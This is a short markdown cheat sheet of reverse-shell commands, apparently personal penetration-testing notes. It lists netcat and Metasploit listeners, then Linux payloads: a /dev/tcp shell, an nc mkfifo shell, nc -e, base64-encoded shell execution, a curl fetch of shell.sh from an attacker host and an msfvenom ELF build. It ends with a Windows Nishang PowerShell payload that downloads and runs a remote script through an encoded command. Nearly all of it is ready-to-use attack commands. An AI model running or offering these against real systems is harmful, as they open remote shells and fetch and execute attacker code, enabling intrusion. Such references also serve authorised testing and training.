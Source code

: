 # Linux

## Listeners

Netcat
`nc -lvnp port`

Meterpreter Linux x64 Reverse TCP Staged
```
msfconsole
use multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost ipaddress
set lport port
run
```

## Payloads

Note: Sometimes need to sh or bash -c 'revshell' for these to work.

sh -i
`sh -i >& /dev/tcp/ipaddress/port 0>&1`

nc mkfifo
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc ipaddress port >/tmp/f`

nc -e
`nc ipaddress port -e sh`

Base64 Revshell Linux
```
echo -n 'payload' | base64 > payload.b64 # Can add spaces to eliminate plus signs

echo payload.b64 | base64 -d | bash
```

Curl (still need to chmod and execute)
`curl attacker:port/shell.sh -o /remote/shell.sh`

Meterpreter Linux x64 Reverse TCP Staged
`msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=ipaddress lport=port -f elf -o shell`

# Windows

Nishang PowerShell Revshell (GitHub linked in Tools document)
```
echo -n "IEX(new-object net.webclient).downloadstring('http://attacker/Invoke-PowerShellTcp.ps1')" | iconv -t UTF-16LE | base64 -w0 > payload.b64

# iconv converts payload to encoding used by Windows

echo 'Invoke-PowerShellTcp -Reverse -IPAddress ipaddress -Port port' >> Invoke-PowerShellTcp.ps1

start listener
start webserver

powershell -enc payload.b64
```



